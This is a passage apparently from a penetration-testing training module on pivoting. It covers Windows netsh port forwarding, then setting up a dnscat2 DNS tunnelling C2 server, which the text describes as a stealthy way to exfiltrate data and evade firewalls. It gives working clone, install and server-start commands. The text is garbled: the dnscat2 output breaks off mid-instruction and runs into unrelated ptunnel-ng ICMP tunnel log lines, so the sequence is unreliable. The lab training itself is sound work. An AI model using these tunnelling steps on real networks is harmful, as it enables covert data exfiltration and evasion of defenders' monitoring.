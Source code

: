 After configuring the `portproxy` on our Windows-based pivot host, we will try to connect to the 8080 port of this host from our attack host using xfreerdp. Once a request is sent from our attack host, the Windows host will route our traffic according to the proxy settings configured by netsh.exe.

#### Connecting to the Internal Host through the Port Forward

![](https://academy.hackthebox.com/storage/modules/158/netsh_pivot.png)

* * *

Note: When spawning your target, we ask you to wait for 3 - 5 minutes until the whole lab with all the configurations is set up so that the connection to your target works flawlessly.


# DNS Tunneling with Dnscat2

* * *

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` ( `C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol. Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. However, with dnscat2, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic. For our testing example, we can use dnscat2 server on our attack host, and execute the dnscat2 client on another Windows host.

* * *

## Setting Up & Using dnscat2

If dnscat2 is not already set up on our attack host, we can do so using the following commands:

#### Cloning dnscat2 and Setting Up the Server

```shell
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install

```

We can then start the dnscat2 server by executing the dnscat2 file.

#### Starting the dnscat2 server

```shell
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):
```

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%